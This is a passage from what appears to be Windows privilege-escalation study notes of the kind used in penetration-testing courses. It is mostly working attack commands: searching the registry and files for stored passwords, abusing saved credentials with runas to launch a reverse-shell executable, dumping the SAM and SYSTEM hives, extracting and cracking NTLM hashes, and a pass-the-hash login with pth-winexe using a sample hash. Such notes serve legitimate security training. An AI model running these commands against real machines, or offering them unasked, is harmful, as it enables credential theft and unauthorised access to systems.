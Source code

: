 or manually with cmd

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

#or single registries

reg query "HKLM\Software\...\winlogon"

```

#### RunAs Saved Creds

Discover `winpeas.exe quiet cmd windowscreds`

`cmdkey /list`

Exploit:

`runas /savecred /user:admin C:\PrivEsc\reverse.exe`

#### Search files for information

Look for passwords

`dir /s *pass* == *.config`

If found then search in the directory for strings within files

`findstr /si password *.xml *.ini *.txt`

#### SAM/SYSTEM password hashes

* dump SAM and SYSTEM to examine it with `samdump2`


reg save HKLM\SAM c:\mimikatz_trunk\x64\SAM
reg save HKLM\SYSTEM c:\mimikatz_trunk\x64\SYSTEM

Look for backups in

`c:\Windows\System32\config` or

`c:\Windows\System32\config\RegBack` or use winpeas

`.\winpeas.exe quiet searchfast filesinfo`

* Copy SAM and SYSTEM files to Kali

* For Windows 2k/NT/XP get `samdump2`

* For newer versions use pwdump 

`python /usr/share/creddump7/pwdump.py SYSTEM SAM`

* crack NTLM `hashcat -m 1000 --force hash /wordlist`

OR even better login directly win pth-winexe

```powershell

# where hash must include the LM part too
pth-winexe -U 'user%aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71' --system //192.168.111.xxx cmd.exe
```
